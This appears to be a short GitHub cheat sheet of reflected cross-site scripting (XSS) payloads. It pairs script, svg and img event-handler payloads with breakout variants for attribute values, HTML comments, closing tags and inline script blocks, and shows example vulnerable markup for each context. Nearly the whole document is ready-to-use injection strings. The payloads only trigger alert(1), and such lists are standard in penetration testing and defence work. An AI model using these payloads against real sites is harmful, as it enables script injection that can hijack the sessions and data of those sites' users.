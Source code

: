 # XSS Payloads 
1. Basic payload
```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag
```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

3. Add --> to escape the payload if input lands in HTML comments.
```html
--><script>alert(1)</script>
```

* Example source code
```html
<!-- REFLECTED_HERE --> 
```

4. Add </tag> when the input inside or between opening/closing tags, tag can be <a>,<title,<script> and any other HTML tags
```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* Example source code
```html
<a class="item-pagination flex-c-m trans-0-4 active-pagination" href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered
```html
"onmouseover=alert(1)
"autofocus onfocus=alert(1)
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

6. Use </script> when input inside <script> tags
```html
</script><script>alert(1)</script>
```

* Example source code
```html
<script>
    var sitekey = "REFLECTED_HERE"
</script>
```


*Will be updated again!
